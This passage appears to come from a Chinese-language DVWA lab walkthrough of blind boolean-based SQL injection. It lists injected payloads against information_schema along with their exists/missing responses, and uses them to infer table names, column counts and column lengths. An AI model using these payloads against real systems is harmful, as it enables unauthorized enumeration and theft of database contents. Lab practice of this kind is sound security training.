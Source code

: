 ```

...以此类推

1' and (select length(table_name)=9 from information_schema.tables where table_schema = database() limit 0,1); #
-- exists

// 得出结果，数据库'dvwa'的第一个表的长度是9
```
```
猜解dvwa数据库第一张表的ascii码字符值

1' and (select ascii(substr(table_name,1,1))>128 from information_schema.tables where table_schema = database() limit 0,1); #
-- MISSING

1' and (select ascii(substr(table_name,1,1))>100 from information_schema.tables where table_schema = database() limit 0,1); #
-- exists

...以此类推

1' and (select ascii(substr(table_name,1,1))=103 from information_schema.tables where table_schema = database() limit 0,1); #
-- exists

// 可以得出结论，第一个字符是g

... 

// 用同样的方法，去遍历全部9个字符，可以得出，第一表为'guestbook'
// 同理可得，第二个表的名字为'users'

```
```
猜解字段名
先判断有多少个字段 -> 然后判断每个字段的长度 -> 判断每个字段的具体ascii码值

判断字段的数量

1' and (select count(column_name)>10 from information_schema.columns where table_name = 'users'); #
-- MISSING

1' and (select count(column_name)>5 from information_schema.columns where table_name = 'users'); #
-- exists

... 以此类推

1' and (select count(column_name)=8 from information_schema.columns where table_name = 'users'); #
-- exists

// 得出结论：表users共有8个字段
```
```
判断每个字段的长度（以第一个字段为例）

1' and (select length(column_name)>10 from information_schema.columns where table_name = 'users' limit 0,1); #
-- MISSING

1' and (select length(column_name)>5 from information_schema.columns where table_name = 'users' limit 0,1); #
-- exists

```